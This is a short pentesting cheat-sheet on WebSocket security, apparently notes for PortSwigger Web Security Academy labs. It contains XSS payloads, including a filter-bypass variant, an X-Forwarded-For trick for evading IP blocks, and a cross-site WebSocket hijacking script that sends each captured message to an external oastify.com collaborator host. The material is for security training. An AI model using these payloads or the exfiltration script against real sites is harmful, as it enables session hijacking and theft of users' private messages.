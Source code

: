 ### WebSockets security vulnerabilities

In principle, practically any web security vulnerability might arise in relation to WebSockets:

1. User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
2. Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
3. If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

**Note:** In some cases you can bypass ip based restrictions while testing via `X-Forwarded-For` header if there any malicious activity detected by server.

### Testing Websockets Vulnerability
    For XSS: <img src=1 onerror='alert(1)'>
    To bypass XSS filter: <img src=1 oNeRrOr=alert`1`>
    For XXE:
    For SQLi:
    For SSRF:
### Cross-site WebSocket hijacking
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
####  Exploit
```js
<script>
    var ws = new WebSocket('wss://0a820003036953d283898de6004b0013.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://agus9fqks1acunox6p9wrogmndt4hv5k.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
